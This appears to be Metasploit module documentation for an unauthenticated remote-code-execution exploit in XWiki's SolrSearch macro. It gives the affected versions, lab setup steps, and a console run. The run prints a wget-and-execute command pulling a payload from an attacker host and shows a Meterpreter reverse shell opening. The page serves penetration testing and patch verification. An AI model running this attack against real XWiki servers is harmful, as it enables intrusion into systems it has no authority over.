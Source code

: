 ## Vulnerable Application

This module exploits a template injection vulnerability in the the XWiki Platform.
XWiki includes a macro called SolrSearch (defined in Main.SolrSearchMacros) that enables full-text search through the embedded Solr engine. 
The vulnerability stems from the way this macro evaluates search parameters in Groovy, failing to sanitize or restrict malicious input.

This vulnerability affects XWiki Platform versions >= 5.3‑milestone‑2 and < 15.10.11, and versions >= 16.0.0‑rc‑1 and < 16.4.1.
Successful exploitation may result in remote code execution under the privileges of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

### Setup a Linux Server to Host the XWiki

To set up a test environment:

1. Download and Install Ubuntu 18.04.6 LTS

Download the ISO from the official Ubuntu archive:
https://releases.ubuntu.com/18.04/

2. Install OpenJDK 17

```
wget https://github.com/adoptium/temurin17-binaries/releases/download/jdk-17.0.9%2B9/OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz
sudo mkdir -p /opt/java
sudo tar -xzf OpenJDK17U-jdk_x64_linux_hotspot_17.0.9_9.tar.gz -C /opt/java
export JAVA_HOME=/opt/java/jdk-17.0.9+9
export PATH=$JAVA_HOME/bin:$PATH
```

3. Download and Unpack Vulnerable XWiki

```
wget https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

```
unzip https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.sh`

### Setup a Windows Server to Host XWiki

1. Download and Install Windows

Download Windows 10 ISO from the official Microsoft site:
https://www.microsoft.com/en-us/software-download/windows10

Follow standard installation steps in your hypervisor (e.g., VirtualBox, VMware, etc.).

2. Install OpenJDK 17

Download `.msi` file from this page

```
https://learn.microsoft.com/en-us/java/openjdk/download#openjdk-17
```

and install

3. Download and Unpack Vulnerable XWiki

```
https://nexus.xwiki.org/nexus/content/groups/public/org/xwiki/platform/xwiki-platform-distribution-flavor-jetty-hsqldb/15.10.5/xwiki-platform-distribution-flavor-jetty-hsqldb-15.10.5.zip
```

Open with 7-zip or another archiver and unpack

4. Run XWiki

Go to the directory where you've unpack archive and run `start_xwiki.bat`

## Scenario

```
msf6 > use multi/http/xwiki_unauth_rce_cve_2025_24893
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RHOSTS 192.168.19.136
RHOSTS => 192.168.19.136
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/xwiki_unauth_rce_cve_2025_24893) > run verbose=true

[*] Command to run on remote host: wget -qO ./oXsSiyiPG http://192.168.19.130:8080/TZr1rd35vcaOY2R1ivAgxA; chmod +x ./oXsSiyiPG; ./oXsSiyiPG &
[*] Fetch handler listening on 192.168.19.130:8080
[*] HTTP server started
[*] Adding resource /TZr1rd35vcaOY2R1ivAgxA
[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Extracting version...
[*] Extracted version: 15.10.5
[+] The target appears to be vulnerable.
[*] Building command for target...
[*] Uploading malicious payload...
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Client 192.168.19.136 requested /TZr1rd35vcaOY2R1ivAgxA
[*] Sending payload to 192.168.19.136 (Wget/1.19.4 (linux-gnu))
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.19.136
[-] Failed to load client portion of stdapi.
[*] Meterpreter session 2 opened (192.168.19.130:4444 -> 192.168.19.136:36512) at 2025-08-23 23:42:12 -0400

[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 192.168.19.136:36510) at 2025-08-23 23:42:12 -0400
meterpreter > sysinfo
Computer     : 192.168.19.136
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```